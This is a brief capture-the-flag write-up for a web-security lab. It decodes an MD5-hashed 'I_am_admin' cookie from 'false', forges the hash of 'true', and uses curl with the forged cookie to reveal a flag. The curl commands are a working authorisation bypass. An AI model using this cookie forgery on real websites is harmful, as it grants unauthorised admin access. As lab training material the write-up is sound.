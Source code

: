 # Cookies

__http://192.168.56.101__

## Description
The command can send to url cookies.

## Form Outputs
Inspect page source in network:
```Set-Cookie: I_am_admin=68934a3e9455fa72420237eb05902327```




## Flag
Let's convert [I_am_admit](#https://md5.gromweb.com/?md5=68934a3e9455fa72420237eb05902327) from md5. We get __false__. </br>
So what about __true__ -> 'b326b5062b2f0e69046810717534cb09'
When we compare the outputs with cookies true and false weget the next flag.
```
curl -s 'http://192.168.56.101' -o false.html
curl -s --cookie I_am_admin=b326b5062b2f0e69046810717534cb09 'http://192.168.56.101' -o true.html 
diff false.html true.html 
```

## Safety
We should learn about cookies and how they can be used to track user activity on a website. </br>
Specifically, you should learn how to use the curl command to send cookies to a URL and how to compare the output of two requests with different cookie values to determine if a flag is present. </br>
Additionally, you should be aware of the potential risks associated with cookies, such as the possibility of them being stolen or used for malicious purposes.